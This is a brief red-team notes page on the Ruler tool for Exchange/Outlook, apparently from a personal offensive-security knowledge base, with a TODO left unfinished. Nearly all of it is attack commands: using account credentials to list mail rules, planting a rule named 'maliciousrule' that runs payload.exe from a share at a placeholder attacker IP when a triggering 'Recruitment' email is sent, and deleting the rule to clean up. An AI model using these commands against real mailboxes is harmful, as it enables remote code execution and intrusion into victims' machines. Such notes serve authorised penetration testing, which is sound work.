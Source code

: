 # [[03 - Offensive Infrastructure/E - Setup Machine/0x02 - Offensive Tools/Remote Execution/Ruler|Ruler]]

TODO: Add headings and info (refer to the links below)

```
$ ruler -k --verbose --email <username>@<domain>.<tld> -u <username> -p <password> display
```

```
$ ruler -k --email <username>@<domain>.<tld> -u <username> -p <password> add --location '\\<attacker_IP>\<share>\\payload.exe' --trigger "SensePost" --name maliciousrule --send --subject Recruitment
```

## Cleanup

```
$ ruler -k --verbose ---email <username>@<domain>.<tld> -u <username> -p <password> delete --name maliciousrule
```

---
## References

### SensePost

- [SensePost: HomePage](https://github.com/sensepost/ruler/wiki/Homepage)

- [SensePost: GAL](https://github.com/sensepost/ruler/wiki/GAL)

- [SensePost: Rules](https://github.com/sensepost/ruler/wiki/Rules)

- [SensePost: Forms](https://github.com/sensepost/ruler/wiki/Forms)

### Red Team Notes

- [Red Team Notes: Password Spraying Outlook Web Access via Remote Shell](https://www.ired.team/offensive-security/initial-access/password-spraying-outlook-web-access-remote-shell)